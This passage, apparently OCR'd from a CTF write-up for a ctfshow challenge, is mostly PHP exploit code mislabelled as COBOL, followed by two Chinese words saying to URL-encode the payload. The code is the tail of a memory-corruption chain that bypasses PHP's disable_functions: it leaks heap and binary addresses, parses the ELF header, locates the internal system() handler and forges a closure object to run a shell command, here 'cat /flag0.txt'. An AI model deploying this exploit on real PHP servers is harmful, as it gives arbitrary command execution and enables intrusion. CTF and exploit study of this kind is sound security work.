 ```cobol
 
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
 
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 
 
    ($helper->b)($cmd);
    exit();
}
 
ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

通过url编码

payload
